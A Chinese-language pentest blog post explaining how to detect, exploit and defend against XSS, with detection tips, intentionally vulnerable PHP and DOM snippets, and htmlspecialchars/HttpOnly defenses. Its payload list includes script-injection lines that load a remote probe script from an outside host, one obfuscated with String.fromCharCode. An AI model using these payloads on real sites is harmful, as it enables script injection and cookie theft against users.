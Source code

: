 +++
date = "2016-07-15T16:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS漏洞挖掘与利用"
topics = ["Pentest"]

+++

### 0x00 XSS的检测
> 检测XSS一般分两种方法：一种是手工检测、一种是软件自动检测  
手工检测：检测结果准确，但对于大型web来说费时费力  
软件检测：方便省力，但存在误报，且有些隐蔽的XSS无法检测出  
<font color="FF0000">检测XSS最重要的就是考虑哪里有输入，输入的数据在哪里输出</font>
#### 1. 手工检测
```
可得知输出位置:
    • 输入敏感字符，如“<、>、"、'、()”等，然后在提交后查看html源代码，看这些字符是否被转义。
    • 在输出这些字符时，程序可能已经进行了过滤，可以输入“AAAAAA<>"&'()”字符串，然后查找AAAAAA或许比较方便。
无法得知输出位置:
    很多web应用程序源码不公开，在测试时不能得知输出位置，比如，有些留言版在留言后必须经过管理员审核才能显示，无法得知数据在后台管理页面处于何种状态，如：
    在标签中：<div>XSS Test</div>
    在属性内：<input type="text" name="content" value="XSS Test" />
    这种情况通常采用输入"/>XSS Test来测试。
```
#### 2. 全自动检测XSS
如APPSCAN、AWVS、Burp Suite等软件都可以有效的检测XSS，他们还会检测其他的漏洞，但是他们的效率不如专业的XSS检测工具高。  
专业的XSS扫描工具有知名的XSSER、XSSF等，还有专门扫描DOM类型XSS的web服务(www.domxssscanner.com)。  
一般要手工和软件一起使用，因为有些XSS软件不能检测，比如有些留言需要输入验证码等，工具无法做到。

### 0x01 XSS的挖掘与利用
* XSS漏洞挖掘
```
反射型XSS：
    一般是url参数中的值能够回显到HTML中，且url的参数值没有过滤或过滤不严
存储型XSS：
    可以提交内容
    提交的内容可被管理员或其他用户看到
    提交的内容没有被过滤或过滤不严
```

* XSS漏洞利用
XSS一般就是闭合标签，和SQL注入类似，常见payload如下：
```
• <script src='http://b.ioio.pub/xss/probe.js'></script>
• <img src=x onerror="s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js'";>
• <svg onload=s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js>
• <svg onload=eval(String.fromCharCode(115,61,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,
    114,105,112,116,39,41,59,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59,
    115,46,115,114,99,61,39,104,116,116,112,58,47,47,98,46,105,111,105,111,46,112,117,98,47,120,115,115,47,
    112,114,111,98,101,46,106,115)) >
```

### 0x03 XSS简单示例
> ```
反射型xss简单示例:
    • <?php
          echo $_GET['x'];
      ?>
    • 提交：
      /xss.php?x=<script>alert(1)</script>
    • 服务端解析时就会触发弹窗
```
```
下面是一段经典的DOM型XSS示例：
<script>
    var temp = document.URL; //获取URL
    var index = document.URL.indexOf("content");
    var par = temp.substrint(index);
    document.write(decodeURL(par)); //输入获取内容
</script>
上述代码的意思是获取URL中content参数的值，并且输出，若输入http://www.xxx.com/dom.html?content=<script>alert(/xss/)</script>，就会产生XSS漏洞。
```
```
只要在script标签中添加JavaScript代码，就能实现一些“特殊效果”，但通常在真实攻击中
一般使用<script src="http://www.xxx.com/a.txt"></script>的方式来加载外部脚本，
a.txt中就存放着恶意脚本。

注：JavaScript加载的脚本文件可以是任意扩展名，甚至没有也行，只要加载的文件中含有
    JavaScript代码就会被执行。
```

### 0x04 XSS的防御
* 过滤输入与输出(重点)

> 使用htmlspecialchars()和htmlentities()将一些预定义的字符转换为HTML实体
```
<?php
    @$html = $_GET['x'];
    if ($html){
        echo htmlspecialchars($html);
    }
?>
```

* HttpOnly

> ```
HttpOnly并不能防御XSS，但它能解决XSS漏洞后面的Cookie劫持攻击，防止XSS会话劫持
```